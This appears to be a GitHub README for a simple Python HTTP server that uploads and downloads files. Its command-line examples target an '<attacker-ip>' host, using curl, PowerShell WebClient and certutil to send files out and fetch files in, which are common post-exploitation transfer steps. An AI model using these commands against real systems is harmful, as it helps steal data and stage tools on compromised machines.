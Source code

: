 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system via a web browser or command line. Perfect for sharing files across local networks quickly and safely (for trusted environments).

---

## ✅ Features

- 📂 Browse directories via a web browser  
- 📥 Download files via direct links  
- ⬆️ Upload files via web interface  
- 🧾 Upload files via `curl` using the `PUT` method  
- 📁 Uploaded files respect the path based on browser or CLI context  
- ⚙️ Works on **Linux**, **macOS**, and **Windows**  
- 🚫 100% standard Python no third-party dependencies  

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)  
- Open network port (default: `8080`)  
- No installation or configuration required  

---

## 🚀 Getting Started

### Clone or Download
```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 Httpseever3.py
python2 Httpserver2.py
```


## 🌐 Web Interface

- Open `http://<your-ip>:8080/` in your browser  
- Navigate folders by clicking on links  
- Use the upload form to send files to the current folder  
- Uploaded files are saved in the **current folder you are viewing**  

---

## 📤 Upload & Download via Command Line

### Linux

#### Upload
```bash
curl -T file http://<attacker-ip>:8080/
```

#### Download
```bash
wget http://<attacker-ip>:8080/file.txt
```

### Windows

#### Upload 
```powershell
# Using curl
curl -T C:\Users\Public\file.txt http://<attacker-ip>:8080/

# Using PowerShell WebClient
$WebClient = New-Object System.Net.WebClient
$WebClient.UploadFile("http://<attacker-ip>:8080/file.txt", "PUT", "C:\Users\Public\file.txt")
```

#### Download 
```powershell
# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/file.txt" -OutFile "C:\Users\Public\file.txt"

# Using certutil
certutil -urlcache -split -f "http://<attacker-ip>:8080/file.txt" "C:\Users\Public\file.txt"

# Using curl
curl -o C:\Users\Public\file.txt http://<attacker-ip>:8080/file.txt
```

## 🛡 Security Warning

⚠️ This tool is **not secure for public or internet-facing use**:  

- No authentication or encryption  
- No user restrictions  
- Anyone on the network can access, upload, or download files  

✅ **Use only:**  

- On local networks  
- With trusted users  
- In controlled environments
